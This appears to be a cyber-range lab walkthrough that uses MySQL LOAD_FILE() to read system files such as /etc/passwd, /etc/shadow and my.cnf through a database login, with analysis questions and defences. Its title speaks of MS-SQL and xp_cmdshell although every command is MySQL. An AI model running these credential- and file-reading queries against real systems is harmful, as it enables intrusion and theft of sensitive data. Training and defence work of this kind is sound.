

# Exercise 6.7: MS-SQL File System Access via LOAD_FILE (MySQL xp_cmdshell equivalent)

## Before You Begin

Exercise 6.6 proved that you can read individual files through the database. In this final exploitation lab, you will take that capability further by exploring the file system methodically; reading configuration files, examining directory listings, and demonstrating the full scope of what an attacker can access through a database connection with file privileges. The goal is to show FinanceCorp exactly how deep the compromise goes, beyond just finding one flag.

## Scenario

James Mitchell has seen your Exercise 6.6 results and is alarmed. He wants the complete picture: if an attacker had this level of access, what sensitive files could they read? Could they access system credentials, application configuration, or other databases? Your task is to perform a thorough file system reconnaissance through the database connection and document every sensitive file you can access. The penetration test report needs to show the real-world impact of that access, beyond the fact that file access is possible.

## Your Objectives

- Perform systematic file system exploration through LOAD_FILE()
- Read common sensitive files (passwd, hostname, configuration files)
- Demonstrate the breadth of file system access available through the database
- Retrieve the flag from both the database and the file system
- Capture the flag

---

## Background: Complete File System Exploitation Through a Database

When a database server allows unrestricted file reading, the attacker's reach extends to every file the database process can access. On Linux, the MySQL process typically runs as the `mysql` user, which can read most files that have world-readable permissions. On a poorly configured system, world-readable files include password hashes, SSH keys, application source code, and database configuration files.

In an MS-SQL environment with xp_cmdshell enabled, the reach is even broader. The SQL Server process on Windows often runs as `NT AUTHORITY\SYSTEM` or a domain service account with elevated privileges. An attacker using xp_cmdshell can read registry entries, access Active Directory data, and even dump credential caches.

The systematic approach to file system exploitation follows a predictable pattern: start with known files that exist on every system, then expand to application-specific paths based on what you discover.



Common targets for file system reading through a database connection include the files listed below.

| File Path | What It Reveals |
|-----------|----------------|
| `/etc/passwd` | All user accounts on the system |
| `/etc/hostname` | The system's hostname |
| `/etc/os-release` | Operating system name and version |
| `/etc/mysql/my.cnf` | MySQL configuration (may contain credentials) |
| `/tmp/flag.txt` | Lab flag file |
| `/etc/shadow` | Password hashes (usually not readable by mysql user) |
| `/root/.bash_history` | Root user's command history (usually not readable) |

Not every file will be readable. The MySQL process has the same file permissions as the `mysql` operating system user. Files owned by root with `600` permissions (owner-only read/write) will return NULL from LOAD_FILE(). Discovering which files return data and which return NULL is itself valuable information; it maps the boundary of the attacker's access.

## Tool Primer: Systematic LOAD_FILE() Exploration

When performing file system reconnaissance, efficiency matters. Instead of connecting interactively and running one query at a time, you can chain multiple LOAD_FILE() calls into a single session or use non-interactive execution to test multiple paths quickly.

The non-interactive approach uses the `-e` flag to execute a query and return immediately.

```bash
mysql --ssl-verify-server-cert=0 -h <target_ip> -u sa -p'password' -e "SELECT LOAD_FILE('/etc/passwd');"
```

For multiple files, you can run several queries in sequence.

```bash
mysql --ssl-verify-server-cert=0 -h <target_ip> -u sa -p'password' -e "
  SELECT '--- /etc/hostname ---' AS file, LOAD_FILE('/etc/hostname') AS contents
  UNION ALL
  SELECT '--- /etc/passwd ---', LOAD_FILE('/etc/passwd')
  UNION ALL
  SELECT '--- /etc/os-release ---', LOAD_FILE('/etc/os-release');
"
```

The UNION ALL approach combines results from multiple LOAD_FILE() calls into a single output table, making it easy to review all results at once.

---

## Walkthrough

### Step 1: Launch the Exercise

Open the OpenCyberRange platform in your browser and start the exercise environment.

- Navigate to **Exercises** and select **MS-SQL Exploitation** then **Level 7**
- Click **Launch** on "MS-SQL File System Access via xp_cmdshell"
- Wait for the status to change to **Running**
- Note the **target IP** displayed in the Active Lab View

### Step 2: Connect to the Database

Establish an interactive session.

!!! kali "Kali - Connect to the database"
    ```bash
    mysql --ssl-verify-server-cert=0 -h <target_ip> -u sa -p'password'
    ```

### Step 3: Read the System Hostname

Start with a simple file to confirm your LOAD_FILE() access is working.

!!! kali "Kali - Read the system hostname"
    ```sql
    SELECT LOAD_FILE('/etc/hostname');
    ```

Record the hostname. In the lab environment, the hostname identifies the Docker container running the database service.

### Step 4: Read the User Account List

The `/etc/passwd` file lists every user account on the system. Read it through the database.

!!! kali "Kali - Read the user account list"
    ```sql
    SELECT LOAD_FILE('/etc/passwd');
    ```

The output will contain lines in the format `username:x:uid:gid:description:home:shell`. Look for user accounts with a login shell (ending in `/bin/bash` or `/bin/sh`); these are accounts that can be used for interactive access. Service accounts typically have `/usr/sbin/nologin` or `/bin/false` as their shell.

### Step 5: Read the Operating System Information

Identify the operating system version running on the target.

!!! kali "Kali - Read the operating system version"
    ```sql
    SELECT LOAD_FILE('/etc/os-release');
    ```

The output will include the distribution name (e.g., "Debian GNU/Linux") and version number. Knowing the OS version helps you search for version-specific vulnerabilities and default file paths.

### Step 6: Attempt to Read a Restricted File

Try reading the `/etc/shadow` file, which contains password hashes.

!!! kali "Kali - Attempt to read the restricted shadow file"
    ```sql
    SELECT LOAD_FILE('/etc/shadow');
    ```

On most properly configured systems, the result will be NULL because `/etc/shadow` is readable only by root. Record whether the file was accessible or returned NULL; both results are meaningful.

### Step 7: Read the MySQL Configuration

The MySQL configuration file may contain credentials or reveal additional attack paths.

!!! kali "Kali - Read the MySQL configuration file"
    ```sql
    SELECT LOAD_FILE('/etc/mysql/my.cnf');
    ```

If the file exists and is readable, look for settings like `secure_file_priv`, bind addresses, and any embedded passwords. Configuration files are gold for penetration testers because they often contain credentials in plaintext.

### Step 8: Retrieve the Flag from the File System

Read the flag from the target file system.

!!! kali "Kali - Read the flag from the file system"
    ```sql
    SELECT LOAD_FILE('/tmp/flag.txt');
    ```

Record the flag value.

### Step 9: Confirm the Flag from the Database

Cross-reference the flag with the database copy.

!!! kali "Kali - Confirm the flag from the database"
    ```sql
    SELECT * FROM target_db.secrets;
    ```

Both sources should match. Document both in your findings.

### Step 10: Exit the Session

Close the interactive session.

!!! kali "Kali - Exit the MySQL session"
    ```sql
    EXIT;
    ```

---

### Record Your Findings

> **Hostname:**
>
> ```
> (paste the /etc/hostname contents here)
> ```
>
> **User accounts (/etc/passwd summary):**
>
> ```
> (list notable user accounts here)
> ```
>
> **Operating system:**
>
> ```
> (paste the OS name and version here)
> ```
>
> **/etc/shadow accessible?**
>
> ```
> (yes/no; and what was returned)
> ```
>
> **MySQL configuration (notable settings):**
>
> ```
> (paste relevant configuration lines here)
> ```
>
> **Flag (file system):**
>
> ```
> (paste the flag here)
> ```
>
> **Flag (database):**
>
> ```
> (paste the flag here)
> ```

---

### Step 11: Record the Flag

The flag is in `OCR{<flag_here>}` format. Copy it and paste it into the **Submit Flag** form on the platform and click **Submit**.

---

## Analysis Questions

Consider the broader implications of file system access through a database.

**1. You were able to read /etc/passwd but not /etc/shadow. What does the difference tell you about the MySQL process's privilege level?**

??? note "Reveal Answer"

    The MySQL process runs as a non-root user (typically `mysql`). On Linux, `/etc/passwd` is world-readable (permissions 644), so any user can read it. `/etc/shadow` is restricted to root (permissions 640 or 600). The fact that LOAD_FILE() could read one but not the other confirms that the database process does not run as root; which limits the attacker's reach but still leaves many sensitive files accessible.

**2. If an attacker could read /etc/passwd and identify user accounts, what would their next steps be?**

??? note "Reveal Answer"

    Identifying user accounts opens several attack paths: (1) target those accounts for brute force via SSH or other services, (2) look for home directory files like `.ssh/authorized_keys`, `.bash_history`, or application credentials in dotfiles, (3) use the account names to attempt password reuse attacks against other services discovered during earlier scans. The `/etc/passwd` file is a reconnaissance goldmine even without the password hashes.

**3. The MySQL configuration file might contain plaintext credentials. Why do database configuration files often contain passwords in clear text?**

??? note "Reveal Answer"

    Database configuration files need to store connection strings so the service can start automatically without human interaction. Unlike interactive logins where a user types a password, automated services must read credentials from a file or environment variable. Encrypting the password in the configuration file only shifts the problem; the decryption key would then need to be stored somewhere accessible. Many administrators accept the trade-off and rely on file permissions (restricting who can read the configuration file) rather than encryption.

**4. How would you prevent LOAD_FILE() from being usable in a production MySQL installation?**

??? note "Reveal Answer"

    Set `secure_file_priv = NULL` in the MySQL configuration file (`my.cnf`), which completely disables LOAD_FILE() and INTO OUTFILE. Alternatively, revoke the FILE privilege from all database users except those that genuinely need it: `REVOKE FILE ON *.* FROM 'username'@'%';`. The most secure approach combines both; disable file operations at the server level and remove the privilege from user accounts as defense in depth.

---

## Key Takeaways

- File system access through LOAD_FILE() turns a database compromise into an operating system reconnaissance tool
- The MySQL process's operating system permissions determine which files are readable; world-readable files are always accessible
- Systematic file reading follows a pattern: hostname, users, OS version, configuration files, then application-specific targets
- Files that return NULL from LOAD_FILE() are not necessarily nonexistent; they may have restrictive permissions
- Configuration files are high-value targets because they frequently contain plaintext credentials
- The defense is straightforward: set `secure_file_priv = NULL` and revoke the FILE privilege from database users
